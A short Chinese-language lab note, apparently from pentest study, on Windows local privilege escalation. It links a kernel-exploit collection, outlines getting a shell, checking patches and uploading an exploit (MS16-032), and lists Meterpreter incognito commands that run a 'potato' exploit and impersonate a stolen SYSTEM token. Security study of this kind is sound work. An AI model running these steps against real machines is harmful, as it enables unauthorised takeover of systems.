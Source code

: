 ‍

##### 查找对应的提权exp

github中作者整合了大部分windows本地提权用到的exp

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

​​![image](assets/image-20241029091205-uh87v06.png)​​

#### 提权步骤

getshell --- 查看系统补丁---下载exp--上传至提权

​​![image](assets/image-20241029091457-kqp0dej.png)​​

##### 2012实验

###### shell连接之后上传ms16-032exp，虚拟终端运行创建用户

​​![image](assets/image-20241029092817-7l9n5fl.png)

###### ms16-075配合msf提权，反弹msf配合烂土豆提权

```bash
use incognito #该模块用来窃取令牌、模仿令牌
list_tokens -u #列举当前的令牌
execute -cH -f ./potato.exe #执行exp
list_tokens -u #查看令牌，有一个SYSTEM权限的模仿令牌
impersonate_token "NT AUTHORITY\SYSTEM" #执行偷取窃取令牌命令
```
